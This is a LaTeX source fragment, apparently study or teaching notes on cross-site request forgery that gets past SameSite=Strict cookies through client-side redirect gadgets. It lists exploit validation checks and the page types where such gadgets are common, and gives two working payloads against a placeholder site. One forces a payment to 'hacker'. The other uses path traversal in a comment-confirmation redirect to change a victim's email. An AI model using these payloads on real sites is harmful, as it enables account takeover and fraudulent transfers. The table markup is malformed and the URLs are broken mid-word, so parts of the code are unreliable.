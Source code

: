 \documentclass{article}
\begin{document}
\subsection*{Exploit Validation Tests}
\begin{tabular}{>{\raggedright\arraybackslash}p{}c}
    \toprule
    \textbf{Test Case} & \textbf{Check} \\
    \midrule
    Proof-of-concept changes target user state \\
    Works with logged-in user session \\
    Bypasses SameSite=Strict restrictions  \\
    Consistent across different browsers  \\
    Maintains session through redirect chain  \\
    Properly encodes special characters \\
    \bottomrule
\end{tabular}

\subsection*{Common Redirect Gadget Locations}
\begin{itemize}
    \item Comment confirmation pages with automatic redirects
    \item Search result pages with "redirecting..." functionality
    \item Login/logout confirmation pages
    \item Form submission success pages
    \item Payment processing confirmation pages
    \item Any page with meta refresh or JavaScript timeout redirects
\end{itemize}


\subsection*{Some examples}
\begin{lstlisting}[frame=single]
<script>
    document.location = 'https://vulnerable-website.com/account/pay
    ment?recipient=hacker&amount=1000000';
</script>
\end{lstlisting}

\begin{lstlisting}[frame=single]
 <html>
<body>
  <form action="https://vulnerable-website.com/post/comment/confirmation">
<input type="hidden" name="postId" value="&#47;my&#45;account&#47;change&#45
;email&#63;email&#61;efdfr&#64;normal&#45;user&#46;net&amp;submit&#61;1" />
<input type="submit" value="Submit request" />
  </form>
  <script>
document.location = "https://vulnerable-website.com/post/comment/confirmatio
n?postId=../my-account/change-email?email=afr%40normal-user.net%26submit=1";
  </script>
</body>
 </html>
\end{lstlisting}
\end{document}
